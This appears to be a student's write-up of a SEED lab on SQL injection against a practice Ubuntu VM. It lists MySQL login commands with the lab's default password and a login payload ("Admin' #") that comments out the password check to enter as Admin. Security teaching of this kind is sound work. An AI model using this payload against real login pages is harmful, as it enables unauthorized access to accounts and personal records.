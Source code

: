 # SQL-Injection
SQL-INJECTION
Title	Author	Date
SQL Injection Attack Seed Lab Ubunto 16.04	M.Umer Hassan	30-10-2021
Task 1
Login MYSQL:
mysql -u root -pseedubuntu
mysql> use Users;
mysql> show tables;
Use Such a SQL Query:
select * from credential where Name = 'Alice';

Screen shoot is in SQL Injection Folder
Task 2
Task 2.1
USERNAME: "Admin' #"
PASSWORD: "***" whatever the password was
It will result in a SQL Query as:
SELECT id, name, eid, salary, birth, ssn, address, email,
nickname, Password
FROM credential
WHERE name= 'Admin' #' and Password='***'

Then statement after # will bi regarded as comments. So we can login in as Admin.

Screen shoot is in SQL Injection Folder
